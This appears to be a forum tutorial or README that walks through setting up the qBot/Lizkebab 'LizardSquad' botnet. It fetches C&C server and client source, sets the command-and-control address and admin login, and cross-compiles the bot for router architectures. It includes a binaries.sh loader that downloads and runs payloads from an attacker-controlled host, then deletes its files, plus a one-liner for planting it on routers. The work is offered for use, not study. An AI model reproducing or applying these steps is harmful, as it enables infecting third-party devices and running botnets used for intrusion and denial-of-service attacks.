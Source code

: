 # irc-botnet
In this tutorial I will be showing you how to setup your LizardSquad botnet!
This botnet is actually called qBot / Lizkebab. You can find the source code HERE but it is heavily crippled.
Thankfully, I will be providing the uncrippled source code.

This is NOT IRC or HTTP

THIS IS P2P

Requirements: 
[+] A VPS or dedi to host your C&C.
[+] A second VPS / dedi capable of scanning for bots.
[+] The ability to think outside the box.
[+] Common sence.

—Lets begin—

To start, we will need to get all the proper dependencys.
For CentOS
Code:
yum install gcc nano -y
For Debian/Ubuntu
Code:
apt-get install gcc nano -y
Once that is completed, you are going to wget the server.c
Code:
wget http://pastebin.com/raw.php?i=Be4G0g85 -O server.c
You are now going to edit your server.c to your desired login infomation and login port.
Code:
//Admin-Config
#define MY_MGM_ADMINP "Pass"
#define MY_MGM_ADMINU "User"
#define MY_MGM_PORT 6969
Would look like

Code:
//Admin-Config
#define MY_MGM_ADMINP "0p#%Ø6x#Ḁ+зplНЗ3RṲ"
#define MY_MGM_ADMINU "XMPP"
#define MY_MGM_PORT 911
Now to compile the server.c it is as simple as
Code:
gcc server.c -o server -pthread
———————————————

Now for the client.c

On your server that will be hosting the client files, enter this:
Code:
wget http://pastebin.com/raw.php?i=qkDnzQHX -O client.c
Now here comes the most important part.
We will be configuring the client to connect to the P2P server.

Edit your client.c
Code:
nano client.c
Once you are in, we will find the space for our IP and Port by
pressing CTRL+W and then searching for
Code:
IP:PORT
Replace IP:PORT with your C&C server’s IP and the port you would 
like the bots to be infected on. (DONT USE YOUR MGM PORT)
It would look like this.
Code:
127.0.0.1:6969
The bots would connect on the port 6969 and the C&C will figure that out.

While you are still editing your client.c press CTRL+W again and search for 
Code:
wget
It will bring you to a this line.
Code:
cd /tmp && wget http://IP/binaries.sh && chmod +x binaries.sh && sh binaries.sh && rm -f binaries.sh
Now replace the IP with your httpd server IP
Code:
cd /tmp && wget http://127.0.0.1/binaries.sh && chmod +x binaries.sh && sh binaries.sh && rm -f binaries.sh\r\n
Now repeat this by pressing CTRL+W and searching for wget again and so forth.

———————————————

Finally, we will compile our client.c for multiple router archatectures.

Here is a sh script coded to automatically compile for all archatectures.

CentOS
Code:
#!/bin/bash

### CONFIG ###
mips="prefixmips"
arm5="prefixarm5"
mipsel="prefixmipsel"
sh4="prefixsh4"
ppc="prefixppc"
i686="prefixi686"
m68="prefixm68"
arm4="prefixarm4"
##############

wget http://uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget http://uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget http://uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget http://uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget http://uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget http://uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i686.tar.bz2
wget http://uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget http://uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2

tar -xf cross-compiler-armv5l.tar.bz2
tar -xf cross-compiler-mips.tar.bz2
tar -xf cross-compiler-mipsel.tar.bz2
tar -xf cross-compiler-powerpc.tar.bz2
tar -xf cross-compiler-sh4.tar.bz2
tar -xf cross-compiler-i686.tar.bz2
tar -xf cross-compiler-m68k.tar.bz2
tar -xf cross-compiler-armv4l.tar.bz2

./cross-compiler-armv5l/bin/armv5l-gcc -o /var/www/html/${arm5} /var/www/html/client.c -pthread
./cross-compiler-armv4l/bin/armv4l-gcc -o /var/www/html/${arm4} /var/www/html/client.c -pthread
./cross-compiler-mips/bin/mips-gcc -o /var/www/html/${mips} /var/www/html/client.c -pthread
./cross-compiler-sh4/bin/sh4-gcc -o /var/www/html/${sh4} /var/www/html/client.c -pthread
./cross-compiler-powerpc/bin/powerpc-gcc -o /var/www/html/${ppc} /var/www/html/client.c -pthread
./cross-compiler-m68k/bin/m68k-gcc -o /var/www/html/${m68k} /var/www/html/client.c -pthread
./cross-compiler-mipsel/bin/mipsel-gcc -o /var/www/html/${mipsel} /var/www/html/client.c -pthread
./cross-compiler-i686/bin/i686-gcc -o /var/www/html/${i686} /var/www/html/client.c -pthread
Once that has finished.

Here is a binaries.sh I have made for the downloading and execution of the compiled files
Code:
#!/bin/bash

#####CONFIG#####
mips="prefixmips"
arm5="prefixarm5"
mipsel="prefixmipsel"
sh4="prefixsh4"
ppc="prefixppc"
i686="prefixi686"
m68="prefixm68"
arm4="prefixarm4"
################

######WGET######
cd /tmp
wget --quiet http://IP/${mips}
wget --quiet http://IP/${mipsel}
wget --quiet http://IP/${arm4}
wget --quiet http://IP/${arm5}
wget --quiet http://IP/${sh4}
wget --quiet http://IP/${ppc}
wget --quiet http://IP/${i686}
################

#####CH MOD#####
chmod +x ${mips}
chmod +x ${mipsel}
chmod +x ${arm4}
chmod +x ${arm5}
chmod +x ${sh4}
chmod +x ${ppc}
chmod +x ${i686}
################

######EXEC######
./${mips}
./${mipsel}
./${arm4}
./${arm5}
./${sh4}
./${ppc}
./${i686}
################

#####REMOVE#####
rm -rf *
################
Be sure the IP in ‘http://IP/’ is the same as the one used in your client.c

Now all you need to do is put the binaries.sh into your /var/www/html and wget it
onto some routers. An example of how to would be like this.
Code:
wget http://127.0.0.1/binaries.sh ; chmod +x binaries.sh ; sh binaries.sh ; rm -f binaries.sh
Thanks everyone for reading, and be sure to like the thread if you enjoyed! 
